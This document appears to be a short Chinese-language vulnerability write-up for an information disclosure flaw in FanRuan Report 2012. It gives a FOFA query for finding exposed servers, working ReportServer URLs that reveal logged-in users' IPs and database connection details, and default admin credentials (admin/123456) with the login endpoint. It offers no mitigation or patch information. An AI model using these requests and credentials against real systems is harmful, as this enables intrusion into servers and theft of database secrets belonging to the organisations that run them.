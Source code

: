 # 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

获取登录报表系统的IP

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```

![](image/fan-8.png)

数据库信息泄露

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```

![](image/fan-9.png)

后台默认口令 admin/123456

```
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```

